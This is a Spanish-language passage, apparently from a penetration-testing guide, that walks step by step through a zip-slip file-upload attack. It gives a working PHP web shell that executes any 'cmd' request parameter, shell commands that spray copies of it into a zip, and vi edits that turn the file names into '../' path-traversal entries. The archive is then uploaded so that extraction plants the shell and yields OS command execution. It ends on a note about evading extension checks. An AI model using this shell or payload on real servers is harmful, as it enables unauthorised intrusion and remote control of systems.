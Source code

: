 1. Crear una shell PHP:
```php
<?php
if(isset($_REQUEST['cmd'])){
$cmd = ($_REQUEST['cmd']);
system($cmd);
}?>
```
2. Utiliza la técnica de "file spraying" y crea un archivo zip comprimido:
```text
root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
root@s2crew:/tmp# ls *.php
simple-backdoor.php  xxAxxAxxAcmd.php        xxAxxAxxAxxAxxAxxAcmd.php        xxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php
xxAcmd.php           xxAxxAxxAxxAcmd.php     xxAxxAxxAxxAxxAxxAxxAcmd.php     xxAxxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php
xxAxxAcmd.php        xxAxxAxxAxxAxxAcmd.php  xxAxxAxxAxxAxxAxxAxxAxxAcmd.php
root@s2crew:/tmp# zip cmd.zip xx*.php
adding: xxAcmd.php (deflated 40%)
adding: xxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAxxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
root@s2crew:/tmp#
```
3. Utiliza un editor hexadecimal o vi y cambia "xxA" por "../", yo utilicé vi:
```text
:set modifiable
:%s/xxA/..\//g
:x!
```
¡Solo queda un paso: subir el archivo ZIP y permitir que la aplicación lo descomprima! Si tiene éxito y el servidor web tiene suficientes privilegios para escribir en los directorios, habrá una simple ejecución de comandos del sistema operativo en el sistema:

[![b1](https://blog.silentsignal.eu/wp-content/uploads/2014/01/b1-300x106.png)](https://blog.silentsignal.eu/wp-content/uploads/2014/01/b1.png)

**Referencia**: [https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)

## Descomprimir con un nombre diferente

A veces, una aplicación bloqueará la carga de un archivo verificando su extensión dentro del archivo ZIP. Si esta verificación es superficial, es decir, verificando el nombre del archivo dentro del encabezado del campo local, se puede eludir haciendo que la aplicación crea que el archivo tiene esa extensión, aunque tendrá otra una vez descomprimido.
